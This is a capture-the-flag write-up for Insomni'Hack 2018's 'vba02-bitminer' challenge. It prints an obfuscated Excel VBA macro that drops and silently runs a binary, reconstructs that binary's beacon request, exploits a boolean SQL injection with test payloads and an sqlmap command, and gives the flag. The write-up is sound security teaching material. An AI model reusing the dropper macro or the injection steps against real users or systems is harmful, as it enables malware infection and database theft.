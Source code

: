 ```yaml
---
title: Insomni'Hack 2018 - vba02-bitminer
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
> Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:
> `vba02-bitminer_4052500b4f2120d3d3ae458b339ec1f16e89e870.xls`

## Challenge resolution
This begins again with a .xls file. We follow the same steps as the first `vba` challenge to get the macro:
```vb
Attribute VB_Name = "Module1"
Sub Auto_Open()
    Predict ("Sheet1")
End Sub
Sub Workbook_Open()
    Predict ("Sheet1")
End Sub

Private Function Predict(ByVal z As String) As String

    Dim zzzz As String
    zzzz = "bitcoin.txt"
    Dim zzzzz As String
    zzzzz = Environ("USERPROFILE")
    ChDrive (zzzzz)
    Dim zzzzzz As Integer
    ChDir (zzzzz)
    zzzzzz = FreeFile()
    Dim zzzzzzz As Integer
    Dim zz As Integer
    zz = 4
    Open zzzz For Binary As zzzzzz
    Dim zzz As Worksheet
    On Error GoTo e
    Set zzz = Worksheets(z)
    zzzzzzz = 1
    Do While zzz.Columns(zzzzzzz).Cells(zz, (3 / 2)).Value <> ""
        Do While zzz.Columns(zzzzzzz).Cells(zz, (109 / 87)).Value <> ""
            Put #zzzzzz, , CByte(zzz.Columns(zzzzzzz).Cells(zz, (5471 / 4871)).Value Xor (42 * 2 + 1))
            zzzzzzz = zzzzzzz + (781625 / 679142)
        Loop
        zz = zz + Sqr(2)
        zzzzzzz = 1
    Loop
    Close #zzzzzz
    zzzzzzzz = Shell(zzzz, vbHide)
    Exit Function
e:
    MsgBox "Unable to predict the future"
    Exit Function
End Function
```

We skip the obfuscated components to focus on the important behavior: it creates a file into the `%userprofile%` folder and runs it. We defang the macro by removing the 'Shell' line, open the Excel file and retrieve the 'bitcoin.txt' file it created. Running it in a controlled environment, we see it uses WMI to gather information about the system on which it runs and generates HTTP requests that can be translated into the following `curl` command:
```shell
curl -i -X 'POST' \
    -H 'User-Agent: Bitcoin Mining $couter 0.1 Beta 1337' -H 'Expect: 100-continue' \
    --data '<Base64-encoded string>' \
    'http://bitminer.insomni.hack/?a=benchmark'
```

The decoded Base64 is a JSON object with the following format:
```json
{
    "cid":"NOT-A-SANDBOX",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the JSON contents, we identify that the server generates an error when a single quote is present in the gpu field. The vulnerability seems to be an SQL injection which can be easily checked by sending the following `gpu` value:
* `' or 1=1 --` always true, returns `go`
* `' or 1=0 --` always false, returns `pwaaa`

Since we are lazy hackers, we use sqlmap to extract the database contents. To do so, we use the `-r` option to define a file containing all of the request information (`*` is used to mark the injection point):
```http
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
```shell
$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"NOT-A-SANDBOX","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump
```

Finaly, we retrieve the flag from the flag table: `INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}`

Authors:
* {% avatar Crypt0-M3lon size=30 %} [@Crypt0-M3lon](https://twitter.com/Crypt0_M3lon)
* {% avatar Rakanga size=30 %} [@ZeArioch](https://twitter.com/ZeArioch)
